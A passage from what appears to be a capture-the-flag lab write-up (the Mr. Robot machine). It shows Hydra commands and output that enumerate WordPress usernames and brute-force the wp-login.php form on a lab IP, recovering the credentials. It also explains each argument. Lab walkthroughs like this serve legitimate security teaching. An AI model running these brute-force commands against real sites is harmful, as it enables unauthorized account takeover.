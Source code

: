 ```python linenums="1" hl_lines="10 11 13" 
[STATUS] 3646.67 tries/min, 10940 tries in 00:03h, 512 to do in 00:01h, 16 active
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-25 13:26:23

```
> The usernames are: ELLIOT, Elliot, and elliot

Explanation:

- `-L fsocity_sorted_unique.dic`: Specifies the dictionary file containing potential usernames.
- `-p invalidpassword`: Uses a known invalid password for all login attempts.
- `192.168.1.226`: Target IP address of the WordPress site.
- `http-post-form`: Specifies that the attack is on an HTTP form.
    - `/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1`: Form parameters.
    - `F=Invalid username`: Indicates failure if "Invalid username" is found in the response.



#### Brute Force Passwords

```python linenums="1" hl_lines="10 11 13" 
┌──(hcoco1㉿kali)-[~]
└─$ hydra -L valid_usernames.txt -P fsocity_sorted_unique.dic 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-25 13:31:55
[DATA] max 16 tasks per 1 server, overall 16 tasks, 34356 login tries (l:3/p:11452), ~2148 tries per task
[DATA] attacking http-post-form://192.168.1.226:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[STATUS] 3492.00 tries/min, 3492 tries in 00:01h, 30864 to do in 00:09h, 16 active
[80][http-post-form] host: 192.168.1.226   login: ELLIOT   password: ER28-0652
[80][http-post-form] host: 192.168.1.226   login: Elliot   password: ER28-0652
[STATUS] 8455.00 tries/min, 25365 tries in 00:03h, 8991 to do in 00:02h, 16 active
[80][http-post-form] host: 192.168.1.226   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-25 13:35:22

```

>Valid Usernames: ELLIOT, Elliot, elliot
>Valid Password: ER28-0652

Explanation:

- Hydra Command: Initiates Hydra with specified parameters.
- Username List (-L): Uses valid_usernames.txt to get a list of usernames.
- Password List (-P): Uses fsocity_sorted_unique.dic to get a list of passwords.
- Target IP: Specifies the target IP address (192.168.1.226).
- HTTP POST Form: Specifies the details of the HTTP POST request.
- Form Path: /wp-login.php.
    - Form Data: Includes placeholders for usernames (^USER^) and passwords (^PASS^).
    - Success Condition: A successful login is indicated by a "Location" header in the response.
